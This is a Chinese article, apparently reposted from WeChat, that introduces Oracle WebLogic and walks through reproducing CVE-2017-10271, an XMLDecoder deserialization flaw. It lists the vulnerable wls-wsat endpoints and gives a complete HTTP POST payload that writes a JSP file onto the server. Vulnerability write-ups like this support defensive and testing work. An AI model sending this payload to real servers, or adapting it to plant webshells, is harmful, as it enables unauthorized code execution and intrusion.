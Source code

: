 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NgO_rj6rmjV-f7fhzDkCOw)

**weblogic简介**

  

Weblogic是美国Oracle公司出品的一个应用服务器(application server)，确切的说是一个基于Java EE架构的中间件，是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器

Weblogic将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中，是商业市场上主要的Java（Java EE）应用服务器软件之一，也是世界上第一个成功商业化的Java EE应用服务器，具有可扩展性、快速开发、灵活、可靠等优势。

在功能性上，Weblogic是Java EE的全能应用服务器，包括EJB 、JSP、servlet、JMS等，是商业软件里排名第一的容器（JSP、servlet、EJB等），并提供其他工具（例如Java编辑器），因此也是一个综合的开发及运行环境。在扩展性上，Weblogic Server凭借其出色的群集技术，拥有处理关键Web应用系统问题所需的性能、可扩展性和高可用性。

  

**漏洞汇总**

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5ibnOFDKicEu1DjnlkkfbOw0xLzmsyIKfBMktJ0fpkGzaJIyrgpUh0CfDkJXbVYYZfB1yRYXicXsUA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

**CVE-2017-10271**

**漏洞简述**

   Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限。

**漏洞影响版本**  

                 10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0。

  

**漏洞触发地址**

```
 `/wls-wsat/CoordinatorPortType` `/wls-wsat/RegistrationPortTypeRPC` `/wls-wsat/ParticipantPortType` `/wls-wsat/RegistrationRequesterPortType` `/wls-wsat/CoordinatorPortType11` `/wls-wsat/RegistrationPortTypeRPC11` `/wls-wsat/ParticipantPortType11` `/wls-wsat/RegistrationRequesterPortType11`
```

**漏洞复现**

    1.访问触发此漏洞的 ip:7001//wls-wsat/CoordinatorPortType

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5ibnOFDKicEu1DjnlkkfbOwH3u1UmMmgqOicn0JYLicBKeFO4IgBbq7l9BJwQFKR0XCAlVVcLM9xYxw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

    2.使用burp抓取请求包后发送至repeater模块，将数据包修改成构造好的payload

```
`POST /wls-wsat/CoordinatorPortType HTTP/1.1``Host: ip:7001``Accept-Encoding: gzip, deflate``Accept: */*``Accept-Language: en``User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)``Connection: close``Content-Type: text/xml``Content-Length: 637``<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">` `<soapenv:Header>` `<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">` `<java><java version="1.4.0" class="java.beans.XMLDecoder">` `<object class="java.io.PrintWriter">``    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>` `<void method="println"><string>` `<![CDATA[``<% out.print("123"); %>` `]]>` `</string>` `</void>` `<void method="close"/>` `</object></java></java>` `</work:WorkContext>` `</soapenv:Header>` `<soapenv:Body/>``</soapenv:Envelope>`
```
